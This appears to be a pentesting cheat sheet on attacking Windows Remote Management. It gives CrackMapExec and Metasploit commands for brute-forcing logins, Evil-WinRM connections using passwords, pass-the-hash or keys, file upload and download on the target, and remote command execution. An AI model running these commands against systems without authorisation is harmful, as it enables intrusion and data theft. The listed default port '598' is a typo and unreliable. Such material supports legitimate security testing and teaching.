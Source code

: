 ```yaml
---
title: Windows Remote Management (WinRM) Pentesting
desc: Default port is 598, 5986.
tags: [598, 5986, CrackMapExec, Windows, WinRM]
alts: [Privilege-Escalation-Windows]
render_with_liquid: false
---
```


## Enumeration

1. **Brute Force Credentials**

    1. **Use CrackMapExec**

        ```sh
        cd crackmapexec
        poetry run crackmapexec winrm <target-ip> -d DomainName -u usernames.txt -p passwords.txt
        ```

    2. **Use Metasploit**

        ```sh
        msfconsole
        msf > use auxiliary/scanner/winrm/winrm_login
        ```

<br />

## Connect and Exploit

1. **Use Evil-WinRM**

    **[Evil-WinRM](https://github.com/Hackplayers/evil-winrm){:target="_blank"}** is a Windows Remote Management shell for pentesting.

    1. **Connect**

        ```powershell
        evil-winrm -i <target-ip> -P 5986 -u username -p password
        
        # Pass The Hash (-H)
        evil-winrm -i <target-ip> -P 5986 -u username -H 0e0363213e37b94221497260b0bcb4fc

        # PowerShell Local Path (-s)
        evil-winrm -i <target-ip> -u username -p password -s /opt/scripts

        # SSL enabled (-S)
        evil-winrm -i <target-ip> -u username -p password -S
        ```

        If you have private key and public key, you can use them for authentication.

        ```sh
        # -S: SSL
        # -k: private key
        # -c: public key
        evil-winrm -i <target-ip> -S -k private.key -c public.key
        ```

    2. **File Transfering**

        After connecting, you can use a lot of useful commands to exploit.

        ```powershell
        # Upload a local file to Windows machine
        PS> upload ./example.bat c:\\Users\Administrator\Desktop\exploit.bat

        # Download a file to local
        PS> download c:\\Users\Administrator\Desktop\example.txt ./example.txt
        ```

2. **Use CrackMapExec**

    **[CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec){:target="_blank"}** is a swiss army knife for pentesting networks.  
    The official docs says that it's recommended to use it via **Poetry** which is a Python package manager.  

    First off, move to the directory in which the CrackMapExec installed and run **poetry install**.

    ```sh
    cd crackmapexec
    poetry install
    ```

    Then execute with **poetry run**.

    ```sh
    # Login and CMD execution (-x)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -p password -x 'whoami'
    # Login and PowerShell execution (-X)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -p password -X '$PSVersionTable'

    # Pass the Hash and CMD execution (-x)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -H <HASH> -x 'whoami'
    # Pass the Hash and PowerShell execution (-X)
    poetry run crackmapexec winrm <target-ip> -d DomainName -u username -H <HASH> -X '$PSVersionTable'
    ```